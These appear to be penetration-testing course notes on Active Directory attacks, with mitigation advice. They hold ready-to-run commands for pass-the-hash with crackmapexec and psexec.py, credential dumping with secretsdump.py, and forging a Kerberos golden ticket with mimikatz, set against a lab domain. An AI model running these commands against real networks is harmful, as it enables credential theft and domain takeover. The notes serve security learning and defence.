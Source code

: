 

### Pass the Hash / Pass the Password

```
sudo apt install crackmapexec 

crackmapexec <IP/CIDR> -u <user> -d <domain> -p <password> 

crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth
```


```
psexec.py marvel/fcastle:Password1@<IP>

secretsdump.py marvel/fcastle:Password1@<IP>

psexec.py "frank castle":@<IP> -hashes LMHASH:LTHASH
```

---

#### Pass attacke mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:
- Limit account re-use:
  - Avoid re-using local admin password
  - Disable Guest and Administrator accounts
  - Limit who is a local administrator (least privilege)
- Utilize strong passwords:
  - The longer the better (>14 characters)
  - Avoid using common words
  - I like long sentences
- Privilege Access Management (PAM)
  - Check out/in sensitive accounts when needed
  - Automatically rotate passwords on check out and check in
  - Limits pass attacks as hash/password is strong and constantly rotated

---

### Token Impersonation

What are tokens?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

Two types:
- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

#### Token Impersonation Mitigation

Mitigation Strategies:
- Limit user/group token creation permissions
- Account tiering
- Local admin restriction

---

### Kerberoasting 

https://medium.com/@Shorty420/kerberoasting-9108477279cc

#### Mitigation Strategies:
- Strong Passwords
- Least privilege

-----

### GPP Attacks 

#### Overview:
- Group Policy Preferences allowed admins to create policies using embedded credentials
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released 
- Patched in MS14-025, but doesn't prevent previous uses

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

-------

### URL File Attacks

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share

-------

**PrintNightmare**
- https://github.com/cube0x0/CVE-2021-1675#scanning
- https://github.com/calebstewart/CVE-2021-1675

-----

### Mimikatz

#### What is Mimikatz?:
- Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
- Dumps credentials stored in memory.
- Credential Dumping,  Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket

https://github.com/gentilkiwi/mimikatz/wiki

-----

### Golden Ticket Attacks

```
mimikatz# kerberos::golden /User:Administratorfake123 /domain:Marvel.local /sid:s-1-5-21-3e1214212-392ø777931-1277971883 /krbtgt:11f843aafd22acfb29aef92f6e423994 /id:500 /ptt
```

-----

### Abusing ZeroLogon

What is ZeroLogon? - https://www.trendmicro.com/en_us/what-is/zerologon.html

dirkjanm CVE-2020-1472 - https://github.com/dirkjanm/CVE-2020-1472

SecuraBV ZeroLogon Checker - https://github.com/SecuraBV/CVE-2020-1472


-----

Active Directory Security Blog: https://adsecurity.org/

Harmj0y Blog: http://blog.harmj0y.net/






